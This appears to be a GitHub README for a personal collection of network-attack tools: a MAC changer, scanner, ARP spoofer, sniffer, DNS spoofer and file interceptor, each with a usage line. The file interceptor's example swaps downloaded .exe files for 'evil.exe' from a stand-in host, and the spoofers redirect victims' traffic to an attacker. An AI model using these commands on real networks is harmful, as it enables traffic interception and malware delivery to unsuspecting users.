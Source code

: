 # Tools
Just miscellaneous tools that I have made to use for cyber security and network automation.

## MAC Address Changer
A Tool to Change MAC address

Usage: 	`macchanger.py -i wlan1 -m 42:69:42:69:42:69`

`-i, -iface, -interface` for your interface

`-m, --mac` for your desired mac address

## Network Scanner
A tool to scan the network for devices IP Addresses and MAC Addresses

Usage: `netscan.py -t 127.0.0.1/24`

`-t, --target` for your desired IP to scan

Note: You can scan subnet via `/24` and more by adding after the IP

## ARP Spoofer
A tool to spoof ARP traffic from the victims device to the Attacker

Usage: `arpspoof.py -t 127.0.0.1 -s 127.0.0.1`

`-t, --target` for your victims IP 

`-s, --spoof` for the gateway IP to spoof

## Network Sniffer
A Tool to sniff packets

Usage: 	`netsniff.py -i wlan1`

`-i, -iface, -interface` for your interface

## File Interceptor
A tool to intercept files on the network and replace them with the attackers

Usage: `intercept.py -e .exe -s http://example.com/evil.exe`

`-e, --ext` for your extension you want to replace

`-u --url` for the url of the file to change

## DNS Spoofer
A tool to spoof DNS traffic from the victims device to the Attacker

Usage: `dnsspoof.py -t example.com -ip 127.0.0.1`

`-t, --target` for your victims IP 

`-ip` for the IP to of the server to reroute to

